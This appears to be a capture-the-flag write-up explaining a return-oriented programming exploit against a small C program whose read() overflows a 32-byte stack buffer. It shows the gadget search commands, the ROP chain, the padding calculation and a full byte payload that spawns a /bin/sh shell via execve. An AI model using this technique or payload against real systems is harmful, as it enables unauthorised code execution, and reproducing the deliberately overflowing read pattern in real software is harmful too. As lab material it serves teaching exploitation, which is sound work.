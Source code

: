 # ROP

To begin, look at the `rop.c` file:

  ```C
  
  #include<stdio.h>

  int main(){
      setvbuf(stdout,0,2,0);
      puts( "ROP attack is easy, isn't it? Show me your skill." );

      char buf[0x20];
      read( 0  , buf , 200 );

      return 0;
  }
  ```
  
From the title, we know that will we be using Return Oriented Programming (ROP) to solve the problem.

So, what we will need is `ROPgadget` to find out ROP chains for us to use.

When we `objdump -d rop`, we can see that the file is extremley <b>BIG</b>. Thus, we probably do not have to worry about missing or lack of gadgets to use.

Our goal is: <b>`execve("/bin/sh\0", 0, 0)`</b>

A easy way to use is using the `.data section` to store the string "/bin/sh\0". 

  * NOTE: rememeber not to overwrite some imortant data in this section.
  
So let's begin!

First, find the address of `.data section`:

  ```
  objdump -D rop | grep data
  ```
  
  ![ROP1](rop.jpg)
  
As you can see, `.sata setction` starts from `0x6c0060`.

Next, making our ROP chain:

Gadgets we will need are:

  ```ASM
  pop rdi                     ; to set RSI address point to the data section.
  pop rsi                     ; to store tempararily the data section address. (because the binary does not contain "mov qword ptr [rdi], rax ; ret" gadget)
  pop rax                     ; to store temporarily the string "/bin//sh".
  mov QWORD PTR [rsi], rax    ; to move the string to the address pointed by rsi. (the data section address)
  ```

So this is our command below.

  ```
  ROPgadget --binary rop | egrep 'pop rsi ; ret|pop rax ; ret|mov qword ptr \[rsi\], rax ; ret|pop rdi ; ret'
  ```
After we get the addresses, we can start writing our payload.

The steps for the ROP chain are:
   
  ```ASM
  pop rsi ; ret  
  data section address      
  pop rax ; ret
  '/bin//sh'                
  mov qword ptr [rsi],rax ; ret
  pop rdi ; ret             
  data section address
  pop rdx ; pop rsi ; ret   
  set rdx = null
  set rsi = null            
  pop rax ; ret
  set rax = 59    
  syscall ; ret
  ```
  
And for our padding, take a look at `objdump`:

  ```
  40108e:	48 8d 45 e0          	lea    -0x20(%rbp),%rax
  401092:	ba c8 00 00 00       	mov    $0xc8,%edx
  401097:	48 89 c6             	mov    %rax,%rsi
  40109a:	bf 00 00 00 00       	mov    $0x0,%edi
  40109f:	b8 00 00 00 00       	mov    $0x0,%eax
  4010a4:	e8 b7 31 03 00       	callq  434260 <__libc_read>
  ```
We can see it starts to read to `rbp - 0x20`, so our padding should be 0x28 bytes.

Therefore our final payload will be:

  ```Python
  p.sendline(b"A"*0x28 + b"\xa7\x17\x40\x00" + b"\x00\x00\x00\x00" + 
	   b"\x60\x00\x6c\x00" + b"\x00\x00\x00\x00" + b"\x08\xb4\x46\x00" + b"\x00\x00\x00\x00" +
	   b'/bin//sh' + b"\xd1\x7a\x46\x00" + b"\x00\x00\x00\x00" + 
	   b"\x93\x16\x40\x00" + b"\x00\x00\x00\x00" + b"\x60\x00\x6c\x00" + b"\x00\x00\x00\x00" +
	   b"\xf9\x71\x43\x00" + b"\x00\x00\x00\x00" + b"\x00\x00\x00\x00" + b"\x00\x00\x00\x00" +
	   b"\x00\x00\x00\x00" + b"\x00\x00\x00\x00" + b"\x08\xb4\x46\x00" + b"\x00\x00\x00\x00" +
	   b"\x3b\x00\x00\x00" + b"\x00\x00\x00\x00" + b"\xc5\xb4\x45\x00" + b"\x00\x00\x00\x00" )
  ```

  
  


  
  
  
  

